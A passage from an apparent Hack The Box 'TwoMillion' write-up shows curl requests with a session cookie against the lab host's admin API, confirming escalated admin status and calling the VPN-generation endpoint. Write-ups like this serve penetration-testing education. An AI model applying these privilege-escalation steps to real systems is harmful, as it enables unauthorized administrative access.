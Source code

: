 ```terminal
  "id": 16,
  "username": "testuser",
  "is_admin": 1
}
```

Let's double check if our user is now an admin.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16    0    16    0     0     12      0 --:--:--  0:00:01 --:--:--    12
{
  "message": true
}
```

Let's try to generate an admin VPN now.

```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59    0    59    0     0     54      0 --:--:--  0:00:01 --:--:--    55
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

I added the username in the data field.

<figure><img src="/assets/htb/TwoMillion/generate.png" alt="Generate Admin VPN Configuration"></figure>
